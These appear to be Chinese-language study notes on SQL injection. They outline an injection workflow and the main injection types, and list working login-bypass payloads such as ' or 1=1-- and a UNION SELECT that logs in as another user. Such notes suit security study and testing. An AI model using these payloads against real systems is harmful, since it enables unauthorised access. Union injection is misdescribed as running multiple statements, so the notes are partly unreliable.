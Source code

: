 ```sql
-- 获取某个表的所有列名
SELECT sql FROM sqlite_master WHERE type = 'table' AND name = 'xxx';
```

## 基本流程

1. 判断是否存在注入点
    - 必要条件：用户输入的内容可以成为 SQL 语句的一部分
    - 可能存在的注入点：GET/POST/COOKIE/HTTP 头/Referer/Server 等
2. 判断注入类型
    - 联合查询注入：在一条语句中执行多条语句
    - 布尔型注入：根据页面返回的结果判断是否存在注入
    - 报错注入：根据页面返回的错误信息判断是否存在注入
    - 堆叠注入：在一条语句中执行多条语句
    - 盲注：根据页面返回的结果判断是否存在注入
3. 获取信息
    - 库名->表名->列名->SELECT <列名> FROM <表名>

## 万能密码

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- 以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## 注入类型

### 联合注入

#### 语法结构

`<原语句> UNION SELECT <列名> FROM <表名>`

> **Notes**
>
> - "<原语句>"表示"SELECT <列名> FROM <表名> WHERE <条件>"，下同

> **Notes**
>
> - 联合查询的两个表的列数必须相同（通过 order by 来判断）

### 堆叠注入

#### 语法结构

`<原语句>; <SQL 语句>`

